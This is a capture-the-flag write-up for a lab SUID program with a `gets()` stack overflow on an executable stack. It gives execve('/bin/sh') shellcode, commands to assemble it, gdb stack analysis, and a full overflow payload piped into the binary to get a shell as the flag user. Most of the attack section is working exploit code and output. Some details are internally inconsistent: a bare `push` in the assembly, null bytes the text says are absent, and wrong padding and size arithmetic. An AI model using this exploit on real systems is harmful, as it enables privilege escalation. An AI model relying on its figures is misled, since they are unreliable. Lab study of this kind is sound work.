

# LEVEL 00

## Resources

- `README`: cryptic quotation of unknown source, probably not a leed
- `./case` program that prompt for a password and grants or forbids access
- `case.c`: source code of `case`

## Case program

The program seems to emulate an authentification program.
The password is written raw in the code.
The result of a successfull authentification is a randomly generated 64 bits token, represented as an hexadecimal string.
As the token is randomly generated it cannot be the flag00 password we are looking for.

## Suid

The case pogram runs with SUID bit enabled, meaning anyone that has permission to run the program will run it as the flag00 user.
Because we are running the program as flag00, any code executed from this program has access to he ~/flag00/.pass.

## Executable stack

```
readelf -l case
```

Output

```
...
GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RWE    0x10
...
```

This command shows that the program was compiled with executable stack option, so if we manage to put the instruction pointer onto a custom payload than we inject on the stack, this payload may be executed.

## Find a buffer where we can inject our custom payload

```
static void auth_loop(void) {
    char credentials[64];

    // ...

    gets(credentials);

    // ...
}
```

We have a direct access to `credentials` buffer, we can then inject what we need inside it from the prompt.

This will take the form of `shellcode`: that is the translation of machine instruction opcodes translated to hexadecimal representation.

As gets is not secured, we can overflow the buffer and overrides the return address.

### Shellcode

Here's the payload we'll inject. It is shellcode friendly (easily translated to a string) because :

- no mov 0 that will generate null byte in the payload (and thus the end of the string)
- data is stored in stack buffer (no direct adressing used)

```
BITS 64

section .text
    global _start

_start:
    xor rax, rax
    push rax                        ; NULL terminator

    mov rbx, "//bin/sh"             ; 8-bytes, loaded as 64 bits
    push                            ; save "//bin/sh" onto the stack
    mov rdi, rsp                    ; rdi (1st argument) = pointer to "/bin/sh"

    xor rsi, rsi                    ; argv = NULL
    xor rdx, rdx                    ; envp = NULL

    mov rax, 0x3b                   ; syscall execve = 59
    syscall
```

To generate shellcode :

```
nasm -f elf64 payload.asm -o shellcode.o && ld -m elf_x86_64 shellcode.o -o shellcode && rm shellcode.o

# Inspect shellcode
objdump -d shellcode -M intel

# To convert as binary
objcopy -O binary -j .text shellcode shellcode.bin
xxd -i shellcode.bin
```

This give us:

```
unsigned char shellcode[] = {
      0x48, 0x31, 0xc0, 0x50, 0x48, 0xbb, 0x2f, 0x2f, 0x62, 0x69, 0x6e, 0x2f,
      0x73, 0x68, 0x53, 0x48, 0x89, 0xe7, 0x48, 0x31, 0xf6, 0x48, 0x31, 0xd2,
      0xb8, 0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05
    };
```

## Overwriting the return adress

Let's inspect the stack frame at

```
gdb -n ./case
b auth_loop
r
info frame
```

Output

```
(gdb) info frame
Stack level 0, frame at 0x7fffffffe270:
 rip = 0x401514 in auth_loop; saved rip = 0x401648
 called by frame at 0x7fffffffe280
 Arglist at 0x7fffffffe260, args:
 Locals at 0x7fffffffe260, Previous frame's sp is 0x7fffffffe270
 Saved registers:
  rbp at 0x7fffffffe260, rip at 0x7fffffffe268
```

- Current frame start (saved rbp address) => 0x7fffffffe260
- Saved rip (0x401648) at 0x7fffffffe268 => return address
- Previous frame => \*$rbp = 0x7fffffffe270

Intuitive representation :



We actually have no guarantee that credentials and sid local variables are stored in code order. Usually, compiler will try to store buffer as far as possible from previous frame.

Let's check the actual address of the buffer :

```
(gdb) x/40i $pc
0x401518 <auth_loop+12>:	call   0x4012e4 <create_session>
0x40151d <auth_loop+17>:	mov    %eax,-0x4(%rbp)
...
0x40158f <auth_loop+131>:	lea    -0x50(%rbp),%rax
0x401593 <auth_loop+135>:	mov    %rax,%rdi
0x401596 <auth_loop+138>:	call   0x401160 <gets@plt>
```

The actual adress of the gets buffer is `rbp - 0x50`, meaning not only locals argument are indeed inverted, but the compiler applies 12 bytes padding between sid and buffer (because the buffer address must be respect a 16 bytes alignment).


So the return adress with want to use will be the start of our payload, that is **`0x7fffffffe210`**.

The offset between the buffer and return adress is then ` ret_addr - buff = 0x7fffffffe268 - 0x7fffffffe210 = 0x58`.

That means we need to have a payload of 96 bytes: 88 bytes of payload to overflow until the return address then 8 bytes to override the return address itself.

Let's setup the payload with padding end the address with need to replace at the end.

```
[shellcode - 31 bytes] [padding - X bytes] [return address - 8 bytes]
```

So we need `88 - 31 - 8 = 49` bytes of padding.

Let's write the address and padding to distinct files
```
# 49 bytes padding
printf 'a%.0s' {1..49} > padding.bin

# 8-bytes return address as little-endian
printf '\x10\xe2\xff\xff\xff\x7f\x00\x00' > retaddr.bin

# Final assembly
cat shellcode.bin padding.bin retaddr.bin > payload.bin
```

Or single line
```
{
  xxd -p shellcode.bin | tr -d '\n'
  printf '90%.0s' {1..49}
  echo -n '10e2ffffff7f0000'
} | xxd -r -p > payload.bin
```

Run the exploit
```
cat payload.bin | ./case
```